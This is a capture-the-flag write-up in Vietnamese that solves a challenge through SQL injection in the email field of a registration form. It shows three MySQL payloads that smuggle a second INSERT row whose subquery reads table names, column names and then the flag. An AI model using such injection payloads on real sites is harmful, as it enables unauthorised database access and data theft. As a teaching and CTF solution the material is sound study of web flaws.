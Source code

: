 Tìm cách inject được SQL: đương nhiên không phải ở trang `login`, nên thử ở trang `register` . Khi đăng kí thành công, quay lại trang login đăng nhập vào hệ thống nó sẽ hiện ra email của mình, vậy field email là nơi nên thử inject. Câu truy vấn của hệ thống sẽ có dạng

`````
Insert into ... values('username','password','email');
`````

 Vậy ta sẽ thử với payload như sau:

```mysql
d'),('u','a',(select table_name from information_schema.tables where table_schema=database() limit 1))-- -
```

lưu ý đây là payload với email, username và password phải tự bịa ra thôi.  Trang web hiện thông báo `You can logged in!`, quay ra đăng nhập sẽ được giá trị email của tài khoản là `flag`

Quá tiện rồi, cứ tưởng phải lấy tài khoản admin hay gì. Vậy tiếp tục truy xuất trong bảng flag thôi. Payload tìm tên cột:

```mysql
d'),('uu','a',(select column_name from information_schema.columns where table_name="flag" limit 1))-- -
```

ra `email` là `flag`, vậy ta cần truy vấn trong column `flag` trong table `flag`, payload cuối cùng:

```mysql
d'),('uuu','a',(select flag from flag limit 1))-- -
```

`email` là: `flag is : moaZ63rVXUhlQ8tVS7Hw`



